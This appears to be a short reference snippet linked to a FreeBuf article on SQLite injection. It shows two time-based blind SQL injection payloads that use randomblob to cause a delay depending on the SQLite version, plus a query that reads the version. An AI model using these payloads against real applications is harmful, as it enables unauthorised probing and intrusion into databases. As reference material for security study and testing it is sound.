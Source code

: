[SQLite注入 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/324785.html)

```
-1' or (case when(substr(sqlite_version(),1,1)>'3') then randomblob(300000000) else 0 end)--
```

```
-1' or (case when(substr(sqlite_version(),1,1)='3') then randomblob(300000000) else 0 end)--
```

```
// 获取版本号
SELECT substr(sqlite_version(), 1, 1);
```

